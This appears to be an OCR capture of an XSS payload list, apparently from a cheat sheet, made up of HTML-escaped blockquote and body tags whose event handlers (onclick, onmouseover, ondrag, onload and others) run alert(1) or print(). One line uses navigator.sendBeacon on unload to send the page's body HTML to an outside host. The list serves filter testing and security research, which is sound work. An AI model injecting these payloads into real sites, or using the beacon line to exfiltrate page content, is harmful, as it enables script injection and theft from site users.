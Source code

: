 &lt;blockquote onbeforecut="alert(1)" contenteditable&gt;test&lt;/blockquote&gt;
&lt;blockquote onbeforepaste="alert(1)" contenteditable&gt;test&lt;/blockquote&gt;
&lt;blockquote onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;blockquote onblur=alert(1) tabindex=1 id=x&gt;&lt;/blockquote&gt;&lt;input autofocus&gt;
&lt;blockquote onclick="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote oncontextmenu="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;blockquote oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;blockquote ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/blockquote&gt;
&lt;blockquote onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/blockquote&gt;&lt;input autofocus&gt;
&lt;blockquote onkeydown="alert(1)" contenteditable&gt;test&lt;/blockquote&gt;
&lt;blockquote onkeypress="alert(1)" contenteditable&gt;test&lt;/blockquote&gt;
&lt;blockquote onkeyup="alert(1)" contenteditable&gt;test&lt;/blockquote&gt;
&lt;blockquote onmousedown="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote onmouseenter="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote onmouseleave="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote onmousemove="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote onmouseout="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote onmouseover="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote onmouseup="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote onmousewheel=alert(1)&gt;requires scrolling
&lt;blockquote onpaste="alert(1)" contenteditable&gt;test&lt;/blockquote&gt;
&lt;blockquote onpointerdown=alert(1)&gt;XSS&lt;/blockquote&gt;
&lt;blockquote onpointerenter=alert(1)&gt;XSS&lt;/blockquote&gt;
&lt;blockquote onpointerleave=alert(1)&gt;XSS&lt;/blockquote&gt;
&lt;blockquote onpointermove=alert(1)&gt;XSS&lt;/blockquote&gt;
&lt;blockquote onpointerout=alert(1)&gt;XSS&lt;/blockquote&gt;
&lt;blockquote onpointerover=alert(1)&gt;XSS&lt;/blockquote&gt;
&lt;blockquote onpointerrawupdate=alert(1)&gt;XSS&lt;/blockquote&gt;
&lt;blockquote onpointerup=alert(1)&gt;XSS&lt;/blockquote&gt;
&lt;body draggable="true" ondrag="alert(1)"&gt;test&lt;/body&gt;
&lt;body draggable="true" ondragend="alert(1)"&gt;test&lt;/body&gt;
&lt;body draggable="true" ondragenter="alert(1)"&gt;test&lt;/body&gt;
&lt;body draggable="true" ondragleave="alert(1)"&gt;test&lt;/body&gt;
&lt;body draggable="true" ondragstart="alert(1)"&gt;test&lt;/body&gt;
&lt;body id=x tabindex=1 onactivate=alert(1)&gt;&lt;/body&gt;
&lt;body id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/body&gt;
&lt;body id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/body&gt;&lt;input autofocus&gt;
&lt;body id=x tabindex=1 ondeactivate=print()&gt;&lt;/body&gt;&lt;input id=y autofocus&gt;
&lt;body id=x tabindex=1 onfocus=alert(1)&gt;&lt;/body&gt;
&lt;body id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/body&gt;
&lt;body onafterprint=alert(1)&gt;
&lt;body onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;body onbeforecopy="alert(1)" contenteditable&gt;test&lt;/body&gt;
&lt;body onbeforecut="alert(1)" contenteditable&gt;test&lt;/body&gt;
&lt;body onbeforepaste="alert(1)" contenteditable&gt;test&lt;/body&gt;
&lt;body onbeforeprint=console.log(1)&gt;
&lt;body onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;body onbeforeunload=navigator.sendBeacon('//https://ssl.portswigger-labs.net/',document.body.innerHTML)&gt;
&lt;body onblur=alert(1) id=x&gt;&lt;iframe id=x&gt;
&lt;body onclick="alert(1)"&gt;test&lt;/body&gt;
&lt;body oncontextmenu="alert(1)"&gt;test&lt;/body&gt;
&lt;body oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;body oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;body ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/body&gt;
&lt;body onerror=alert(1) onload=/&gt;
&lt;body onfocusout=alert(1) id=x&gt;&lt;iframe id=x&gt;
&lt;body onhashchange="print()"&gt;
&lt;body onkeydown="alert(1)" contenteditable&gt;test&lt;/body&gt;
&lt;body onkeypress="alert(1)" contenteditable&gt;test&lt;/body&gt;
&lt;body onkeyup="alert(1)" contenteditable&gt;test&lt;/body&gt;
&lt;body onload=alert(1)&gt;
&lt;body onmessage=print()&gt;